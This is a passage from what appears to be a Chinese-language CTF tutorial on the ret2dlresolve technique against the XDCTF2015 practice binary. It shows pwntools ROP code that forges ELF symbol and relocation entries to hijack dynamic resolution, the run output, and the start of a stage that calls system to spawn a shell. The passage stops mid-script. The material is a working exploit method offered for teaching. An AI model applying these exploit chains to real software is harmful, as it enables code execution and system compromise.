 ```python
# plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

## making fake write relocation

# making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('write\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage5.py      
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 129249
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

#### stage 6

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
```